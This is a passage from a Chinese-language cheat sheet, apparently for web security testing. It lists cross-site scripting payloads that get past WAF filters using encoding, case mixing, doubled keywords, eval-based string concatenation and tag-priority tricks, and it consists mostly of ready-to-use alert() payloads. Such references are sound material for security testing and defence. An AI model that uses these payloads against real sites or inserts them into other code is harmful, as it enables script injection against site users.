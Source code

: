 如`alert`的url全编码为`%25%36%31%25%36%63%25%36%35%25%37%32%25%37%34`

**String.fromCharCode 编码**

如`alert`的编码为`String.fromCharCode(97,108,101,114,116)`

#### 过滤空格

用`/`代替空格

```html
<img/src="x"/onerror=alert("xss");>
```

#### 过滤关键字

##### 大小写绕过

```html
<ImG sRc=x onerRor=alert("xss");>
```

##### 双写关键字

有些waf可能会只替换一次且是替换为空

```html
<imimgg srsrcc=x onerror=alert("xss");>
```

##### 字符拼接

利用eval

```html
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
```

利用top

```html
<script>top["al"+"ert"](`xss`);</script>
```

##### 其它字符混淆

有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们就可以使用其它字符去混淆我们注入的代码了
下面举几个简单的例子

```html
可利用注释、标签的优先级等
1.<<script>alert("xss");//<</script>
2.<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
3.<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>
```

##### 编码绕过

Unicode编码绕过
